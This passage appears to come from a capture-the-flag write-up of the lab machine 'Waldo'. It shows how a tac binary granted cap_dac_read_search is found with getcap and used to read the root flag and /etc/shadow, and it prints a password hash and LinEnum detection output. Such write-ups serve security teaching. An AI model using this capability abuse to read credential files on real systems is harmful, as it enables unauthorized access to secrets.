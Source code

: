 

    monitor@waldo:~/app-dev$ find / -exec getcap {} \; 2>/dev/null
    /usr/bin/tac = cap_dac_read_search+ei
    /home/monitor/app-dev/v0.1/logMonitor-0.1 = cap_dac_read_search+ei



`tac` is just reverse `cat`, as it in prints contents of files to
stdout, but last line first.

With `tac`, I can get the root flag:



    monitor@waldo:~/app-dev$ tac /root/root.txt
    8fb67c84...



If I wanted to read other files with more than one line, just `tac`
twice:



    monitor@waldo:/$ tac /etc/shadow | tac
    root:$6$tRIbOmog$v7fPb8FKIT0QryKrm7RstojMs.ZXi4xxHz2Uix9lsw52eWtsURc9dwWMOyt4Gpd6QLtVtDnU1NO5KE5gF48r8.:17654:0:99999:7:::
    daemon:*:17653:0:99999:7:::
    bin:*:17653:0:99999:7:::
    sys:*:17653:0:99999:7:::
    sync:*:17653:0:99999:7:::
    ...[snip]...



## No root Shell

I couldn't find any way to turn this into a root shell, and in
conversations with the author, that's the intention for the box. My
primary focus was on exploiting `logMonitor-0.1`, but couldn't get
anything to work.

## Beyond Root: Lin Enum Updates Based on Waldo

When this box was released, I ran `LinEnum.sh` on the box as monitor
trying to get to root. Nothing much jumped out at me. But when I run it
today, I see this section:



    [+] Files with POSIX capabilities set:
    /usr/bin/tac = cap_dac_read_search+ei
    /home/monitor/app-dev/v0.1/logMonitor-0.1 = cap_dac_read_search+ei


    [+] Users with specific POSIX capabilities:
    cap_dac_read_search monitor


    [+] Capabilities associated with the current user:
    cap_dac_read_search
